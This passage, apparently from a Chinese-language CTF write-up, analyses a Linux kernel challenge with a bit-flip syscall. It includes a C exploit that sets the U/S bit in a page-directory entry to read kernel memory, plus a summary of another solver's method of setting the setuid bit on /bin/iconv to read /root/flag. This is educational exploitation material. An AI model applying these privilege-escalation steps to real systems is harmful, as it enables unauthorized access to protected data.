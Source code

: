 ```bash
018fa008: 0000000000000000  ........
... # ignore

### 0x67 == 0b1100111, PS = 0
########### PDE
$ xxd -e -g8 -c8 -a -s 0x18fb000 -l 0x1000 memdump
... # ignore
018fb150: 80000000054001e3  ..@.....
018fb158: 80000000056001e3  ..`..... # off 43, our target
018fb160: 80000000058001e3  ........
... # ignore
```

- `0xe3 == 0b11100011`
  - PS = 1 (bit 0)
  - W/R = 1 (bit 1)
  - **U/S = 0 (bit 2)**
- 由於 page size 為 2MB，因此 PDE 是最後一層 VA2PA 的 translation，`0x5600000` 即為 physical base address (實際上 virtual address 也等同於 directly mappings 的 base + `0x5600000`)

因此如果能更改 physical address `0x018fb158` 的值成 `0xe7 == 0b11100111`，代表 normal user 也可以存取到此 page，最後 exploit 如下：

```c
#include <stdio.h>
#include <unistd.h>

int main()
{
	int ret = syscall(333, 0xffff8800018fb158, 2); // U/S bit is bit 2
    unsigned char *addr = 0xffff880005642000;
    for (int i = 0; i < 0x1000; i++) {
        // find "this is where the flag will be on the remote host..."
		if (addr[i] == 't' && addr[i+1] == 'h' && addr[i+2] == 'i') {
			printf("Find flag: %s\n", addr);
            break;
        }
    }
}
```



##### mephi42

他的攻擊手法為：

1. 透過下斷點在 [bprm_fill_uid](https://elixir.bootlin.com/linux/v4.17/source/fs/exec.c#L1509)，得到目標檔案的 `bprm->file->f_path.dentry->d_inode` 位址
   - 他提到因為 `CONFIG_SMP` disable, `nokaslr` 以及使用 **initramfs**，因此 inode 的位址都會相同
   - bprm == `struct linux_binprm`，用於保存在載入 binary 時的執行參數以及環境
2. 我們的目標檔案為 `/bin/iconv`，在 flip `inode->i_mode` ( `inode->i_mode ^= S_ISUID`) 之後，`/bin/iconv` 就會有 suid 的權限，再來就可以透過 `/bin/iconv /root/flag` 讀 flag

此方法在有 symbol 的 kernel 會比較方便，一般都會透過官方提供的 vmlinux-extract 將 ELF 從 bzImage 抽出來，而 [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) 會去爬 kallsyms，加上一些找得到的 symbol，這樣在下斷點時就不需要找 address，直接透過 symbol 下就可以了。
